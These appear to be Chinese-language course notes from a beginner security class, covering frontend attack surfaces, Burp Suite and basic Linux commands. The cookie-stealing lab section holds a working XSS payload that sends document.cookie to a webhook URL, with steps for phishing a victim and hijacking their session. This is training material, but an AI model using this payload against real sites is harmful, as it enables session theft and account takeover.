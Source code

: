 ## 在前端裡面可以了解什麼
### HTML
- 找版本資訊
    - 特殊套件、模板
- 找註解
    - 隱藏資料
    
### CSS
- 利用請求，屬性來偷資料
	- css injction

### JavaScript
javascript = 程式語言 + DOM + BOM
- DOM
    - 你輸入甚麼我輸出什麼
    - Document Object Model
    - 控制網頁相關內容的
- BOM
    - JS 操控瀏覽器
    - 例如彈出視窗

### 偷Cookie Lab
[練習網頁](http://lab.crazyfirelee.tw)
換成自己的網址的部分改成你 webhook.site 的網址
```bash=
<script>new Image().src="換成自己的網址"+"/"+document.cookie</script>
```

1. 把上面那串丟進練習網頁的搜尋框 --> 得到網址
2. 拿這段網址去釣別人的cookie
3. 回到webhook拿到cookie (收到的網址後段的PHPSESSID)
4. 到練習網頁f12/storage/cookies的地方改PHPSESSID

## Burp Suite
- 攔截瀏覽器收到的封包
- 修改從瀏覽器傳送出的封包
	- 完全繞過前端的過濾
- 紀錄和伺服器互動的全部過程

## Linux 基本操作
- grep
	- 有人使用 `grep -r AIS3_Junior` 偷 Flag
- 權限
	- 在`ls -al`裡可以看到 rwxrwxrwx，三個 rwx 分別為擁有者/群組/其他人，r 代表閱讀、w 代表修改、x 代表執行
- 加密
	- 哈希值
		- MD5 (不再安全)
- 記憶指令使用紀錄
	- .zhs_history